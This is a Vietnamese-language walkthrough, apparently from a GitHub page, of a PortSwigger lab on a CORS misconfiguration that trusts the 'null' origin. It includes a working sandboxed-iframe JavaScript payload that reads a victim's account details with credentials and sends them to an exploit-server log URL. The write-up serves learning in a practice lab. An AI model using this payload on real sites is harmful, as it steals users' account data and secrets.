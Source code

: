 ### Lab: CORS vulnerability with trusted null origin

- Tương tự bài lab trước, ta thực hiện đăng nhập với: _wiener:peter_

  <img width="1918" height="945" alt="image" src="https://github.com/user-attachments/assets/c00ae960-dc62-4811-9b22-7282d4af0ea8" />

- Tương tự phát hiện website sử dụng CORS trong response của AJAX request khi ta thực hiện đăng nhập:

  <img width="1919" height="710" alt="image" src="https://github.com/user-attachments/assets/12b46b65-54d7-4e5e-83f2-037e49023e74" />

- Thực hiện gửi request vào trong Burp Repeater.

- Thêm header Origin với giá trị là https://example.com và gửi request:

  <img width="1919" height="930" alt="image" src="https://github.com/user-attachments/assets/c1fdb894-5ec0-40b5-88d7-11daba480cf9" />

  Tuy nhiên có thể thấy ở đây, trong response phản hồi của server ta sẽ không thấy header _Access-Control-Allow-Origin_ trả về &rarr; có vè chặn, sử dụng   whitelist.

- Tuy nhiên nếu ta thay đổi giá trị của header này là null, với cách như đã đề cập ở trên để test phản hồi của server:

  <img width="1919" height="929" alt="image" src="https://github.com/user-attachments/assets/70144bfd-6364-46ca-89a8-8d31c2ce24b4" />

  Ta có thể thấy server phản hồi trả về lại với header _Access-Control-Allow-Origin_ cũng là null.

  &rarr; lỗi whitelisted null origin value.

- Truy cập exploit server, trong file /exploit ta viết phần body với đoạn JS như sau:

  ```javascript
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
  </script>"></iframe>
  ```

  Ta tạo một ```<iframe sandbox>``` qua đó ép browser phải gửi request với Origin là null tới server, qua đó ta có thể bypass whitelist và lụm lúa.

  Thực hiện gửi đển cho victim là admin và chờ nó truy cập đường dẫn sau đó check access log:

  <img width="959" height="467" alt="image" src="https://github.com/user-attachments/assets/c75b0668-11bf-43ac-a799-b4975708b915" />

  Check access log, nhận được response của server website gửi về cho exploit server của ta:

  <img width="1919" height="941" alt="image" src="https://github.com/user-attachments/assets/15b99aad-181f-4899-8286-ad0ab46787f1" />
